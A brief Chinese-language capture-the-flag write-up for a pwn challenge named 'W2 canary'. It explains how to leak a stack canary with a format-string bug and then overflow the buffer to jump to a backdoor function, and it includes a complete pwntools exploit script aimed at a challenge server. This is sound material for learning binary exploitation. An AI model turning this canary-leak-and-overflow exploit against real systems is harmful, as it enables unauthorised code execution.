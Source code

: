# W2 canary

## 文件分析

下载`canary`, NX on, PIE off, Canary on, RELRO full  
ghidra分析为64位程序

## 解题思路

观察程序发现后门函数，且没有pie，首先利用格式化字符串漏洞打印出canary的值，
然后栈溢出补上canary后跳转到后门函数即可

## EXPLOIT

```python
from pwn import *
sh = remote('node4.buuoj.cn', 26476)

# payload 1
sh.sendline(b'%11$p') # get canary

sh.recvuntil(b'gift:\n') # skip
canary = int(sh.recvline()[:18], 16)

# payload 2
backdoor = 0x00401262
sh.sendline(b'0'*0x28 + p64(canary) + b'0'*8 + p64(backdoor))

sh.interactive()
```

Done.
